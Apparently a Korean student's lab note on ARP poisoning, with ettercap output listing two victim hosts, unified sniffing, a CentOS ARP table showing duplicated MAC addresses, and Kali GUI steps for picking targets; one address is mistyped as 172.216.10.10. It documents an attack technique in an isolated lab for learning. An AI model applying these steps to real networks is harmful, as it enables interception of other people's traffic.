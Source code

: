 ```

ARP poisoning victims:

 GROUP 1 : 172.16.10.10 00:04:56:2D:27:F3 // 양방향 다 건다

 GROUP 2 : 172.16.10.20 00:04:56:2B:84:FA
Starting Unified sniffing...


Text only Interface activated...
Hit 'h' for inline help



Mon Sep 28 12:41:10 2020 [119449]
  172.16.10.10:0 --> 172.16.10.20:0 |  (0)


Mon Sep 28 12:41:36 2020 [333074]
UDP  10.10.10.5:138 --> 10.10.10.255:138 |  (201)
....


```

###### CentOS

[root@Linux-11 바탕화면]# arp -v

```
Address                  HWtype  HWaddress           Flags Mask            Iface
172.16.10.30             ether   00:04:56:2f:d6:56   C                     eth0
172.16.10.10             ether   00:04:56:2f:d6:56   C                     eth0


MAC 주소 똑같음 = 양쪽 다 걸림
```





###### 칼리

root@kali-04:~/Desktop# ettercap -G 

돋보기 -> 같은 대역대 네트워크 스캔

그 옆에  Hosts List -> 호스트 리스트 볼 수 있음

172.216.10.10 을 Add to Target 1으로 

172.216.10.10 을 Add to Target 2으로 설정

```
Host 172.16.10.10 added to TARGET1
Host 172.16.10.20 added to TARGET2
```
